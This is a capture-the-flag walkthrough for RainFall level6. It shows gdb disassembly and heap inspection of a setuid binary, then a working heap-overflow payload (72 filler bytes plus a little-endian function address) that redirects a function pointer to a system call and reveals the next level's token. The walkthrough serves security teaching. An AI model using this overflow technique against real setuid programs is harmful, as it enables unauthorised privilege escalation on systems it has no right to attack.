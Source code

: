 # level6 walkthrough
There is setuid binary, lets disassemble it:

    Dump of assembler code for function main:
    0x0804847c <+0>:	push   ebp
    0x0804847d <+1>:	mov    ebp,esp
    0x0804847f <+3>:	and    esp,0xfffffff0
    0x08048482 <+6>:	sub    esp,0x20
    0x08048485 <+9>:	mov    DWORD PTR [esp],0x40
    0x0804848c <+16>:	call   0x8048350 <malloc@plt>
    0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
    0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
    0x0804849c <+32>:	call   0x8048350 <malloc@plt>
    0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax
    0x080484a5 <+41>:	mov    edx,0x8048468
    0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
    0x080484ae <+50>:	mov    DWORD PTR [eax],edx
    0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
    0x080484b3 <+55>:	add    eax,0x4
    0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
    0x080484b8 <+60>:	mov    edx,eax
    0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
    0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx
    0x080484c2 <+70>:	mov    DWORD PTR [esp],eax
    0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
    0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
    0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
    0x080484d0 <+84>:	call   eax
    0x080484d2 <+86>:	leave
    0x080484d3 <+87>:	ret
    End of assembler dump.

We already can spot vulnerable strcpy call from first command line argument (which could be very large) into buffer of 64 bytes allocated on heap.
There is another buffer of 4 bytes which is being allocated after the first one, thus it's laying after the first buffer.
Small buffer contains address of local function which is called from that buffer. We can find it by listing all functions:

    (gdb) info functions
    All defined functions:

    Non-debugging symbols:
    0x080482f4  _init
    0x08048340  strcpy
    0x08048340  strcpy@plt
    0x08048350  malloc
    0x08048350  malloc@plt
    0x08048360  puts
    0x08048360  puts@plt
    0x08048370  system
    0x08048370  system@plt
    0x08048380  __gmon_start__
    0x08048380  __gmon_start__@plt
    0x08048390  __libc_start_main
    0x08048390  __libc_start_main@plt
    0x080483a0  _start
    0x080483d0  __do_global_dtors_aux
    0x08048430  frame_dummy
    0x08048454  n
    0x08048468  m
    0x0804847c  main
    ...

This m function is useless for us:

    (gdb) disass m
    Dump of assembler code for function m:
    0x08048468 <+0>:	push   ebp
    0x08048469 <+1>:	mov    ebp,esp
    0x0804846b <+3>:	sub    esp,0x18
    0x0804846e <+6>:	mov    DWORD PTR [esp],0x80485d1
    0x08048475 <+13>:	call   0x8048360 <puts@plt>
    0x0804847a <+18>:	leave
    0x0804847b <+19>:	ret
    End of assembler dump.

It just prints "Nope" string. But there is also not used n function:

    (gdb) disass n
    Dump of assembler code for function n:
    0x08048454 <+0>:	push   ebp
    0x08048455 <+1>:	mov    ebp,esp
    0x08048457 <+3>:	sub    esp,0x18
    0x0804845a <+6>:	mov    DWORD PTR [esp],0x80485b0
    0x08048461 <+13>:	call   0x8048370 <system@plt>
    0x08048466 <+18>:	leave
    0x08048467 <+19>:	ret
    End of assembler dump.

It contains code which would get us token for the next level if we manage to overwrite small buffer with address of this function.
To do that we need to examine heap space:

    (gdb) b *main+21
    Breakpoint 6 at 0x8048491
    (gdb) b *main+37
    Breakpoint 7 at 0x80484a1
    (gdb) b *main+84
    Breakpoint 8 at 0x80484d0
    (gdb) r aaabbbbcccc
    Starting program: /home/user/level6/level6 aaabbbbcccc

    Breakpoint 6, 0x08048491 in main ()
    (gdb) i r eax
    eax            0x804a008	134520840
    (gdb) c
    Continuing.

    Breakpoint 7, 0x080484a1 in main ()
    (gdb) i r eax
    eax            0x804a050	134520912
    (gdb) c
    Continuing.

    Breakpoint 8, 0x080484d0 in main ()
    (gdb) i r eax
    eax            0x8048468	134513768

Bigger buffer address is 0x804a008, smaller buffer address is 0x804a050 and it contains m function address which is 0x8048468.
We can calculate distance between them just by subtracting 0x804a050-0x804a008=0x48 (72 bytes: 64 bytes is bigger buffer and there is 8 byte gap before smaller buffer).
To have better picture of what's going on we can print out heap memory:

    (gdb) x/20x 0x804a008
    0x804a008:	0x62616161	0x63626262	0x00636363	0x00000000
    0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
    0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
    0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
    0x804a048:	0x00000000	0x00000011	0x08048468	0x00000000

Here we can see our symbols provided from command line inside bigger buffer, and m function address inside smaller buffer.
To obtain token for the next level we need to generate 72 random bytes, append to them n function address in little endian and provide this string as first argument:

    level6@RainFall:~$ python -c 'print("a"*72 + "\x54\x84\x04\x08")' > /tmp/level6/exploit
    level6@RainFall:~$ ./level6 $(cat /tmp/level6/exploit)
    f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

